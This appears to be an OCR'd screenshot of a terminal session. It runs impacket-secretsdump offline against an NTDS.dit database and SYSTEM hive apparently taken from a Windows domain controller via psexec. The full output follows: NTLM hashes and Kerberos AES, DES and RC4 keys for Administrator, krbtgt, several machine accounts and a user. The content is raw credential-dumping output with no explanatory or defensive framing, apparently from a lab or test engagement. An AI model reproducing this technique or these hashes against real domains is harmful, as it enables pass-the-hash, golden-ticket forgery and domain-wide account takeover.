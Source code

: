 ```python
impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up...
```
